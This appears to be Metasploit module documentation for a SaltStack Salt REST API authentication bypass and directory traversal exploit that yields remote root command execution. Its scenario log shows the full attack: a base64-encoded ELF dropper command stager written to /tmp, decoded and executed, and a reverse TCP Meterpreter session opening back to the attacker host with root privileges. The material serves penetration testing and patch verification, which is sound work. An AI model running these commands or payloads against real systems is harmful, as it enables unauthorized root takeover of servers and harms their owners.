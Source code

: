 ## Vulnerable Application

### Description

This module leverages an authentication bypass and directory traversal
vulnerabilities in Saltstack Salt's REST API to execute commands remotely on
the `master` as the root user.

Every 60 seconds, `salt-master` service performs a maintenance process check
that reloads and executes all the `grains` on the `master`, including [custom
grain
modules](https://docs.saltproject.io/en/latest/topics/grains/#writing-grains)
in the Extension Module directory (see `EXTMODSDIR` [option](#extmodsdir)). So,
this module simply creates a Python script at this location and waits for it to
be executed. The time interval is set to 60 seconds by default but can be
changed in the `master` configuration file with the `loop_interval` option.
Note that, if an administrator executes commands locally on the `master`, the
maintenance process check will also be performed.

It has been fixed in the following installation packages: 3002.5, 3001.6 and
3000.8

Also, a patch is available for the following versions: 3002.2, 3001.4, 3000.6,
2019.2.8, 2019.2.5, 2018.3.5, 2017.7.8, 2016.11.10, 2016.11.6, 2016.11.5,
2016.11.3, 2016.3.8, 2016.3.6, 2016.3.4, 2015.8.13 and 2015.8.10

This module has been tested successfully against versions 3001.4, 3002 and
3002.2 on Ubuntu 18.04

### Setup

Follow the [installation steps](https://repo.saltstack.com/#ubuntu) for Ubuntu
(or choose another OS from the same page) and the REST API
[setup instructions](https://docs.saltproject.io/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html).

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use exploit/linux/http/saltstack_salt_wheel_async_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `run`
1. You should get a Meterpreter session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

## Options

### TARGETURI

The base path of the Saltstack Salt application, which is set to `/` by
default.

### EXTMODSDIR

The Extension Module directory ("extmods") for the `master`. On older versions,
this directory was `/var/cache/salt/extmods` by default. It has been moved to
`/var/cache/salt/master/extmods` from version `2016.3.0` and is the default
option value. Note that this path can be customized in the `master`
configuration file with the `extension_modules` option. The Python file will be
placed in the `grains` directory under this path. Salt automatically creates
the sub-directories if they don't exist.

## Scenarios

### SaltStack Salt 3002.2 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/saltstack_salt_wheel_async_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set rhosts 192.168.144.188
rhosts => 192.168.144.188
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set lhost 192.168.144.1
lhost => 192.168.144.1
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > options

Module options (exploit/linux/http/saltstack_salt_wheel_async_rce):

   Name        Current Setting                 Required  Description
   ----        ---------------                 --------  -----------
   EXTMODSDIR  /var/cache/salt/master/extmods  yes       The Extension Module Directory ("extmods")
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.144.188                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       8000                            yes       The target port (TCP)
   SSL         true                            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI   /                               yes       Base path
   URIPATH                                     no        The URI to use for this exploit (default is random)
   VHOST                                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/saltstack_salt_wheel_async_rce) > run

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. Salt API responded as expected.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXMCokAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/WlZHG.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ykmTR' < '/tmp/WlZHG.b64' ; chmod +x '/tmp/ykmTR' ; '/tmp/ykmTR' & sleep 2 ; rm -f '/tmp/ykmTR' ; rm -f '/tmp/WlZHG.b64'
[*] Waiting for the Salt maintenance process check to trigger the payload. This could take some time...
[*] Command Stager progress - 102.16% done (851/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.144.188
[+] Deleted /var/cache/salt/master/extmods/grains/lUhZUGix.py
[+] Deleted /var/cache/salt/master/extmods/grains/__pycache__/lUhZUGix.cpython-36.pyc
[*] Meterpreter session 1 opened (192.168.144.1:4444 -> 192.168.144.188:42792) at 2021-03-26 14:58:16 +0100

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.188
OS           : Ubuntu 18.04 (Linux 5.4.0-70-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
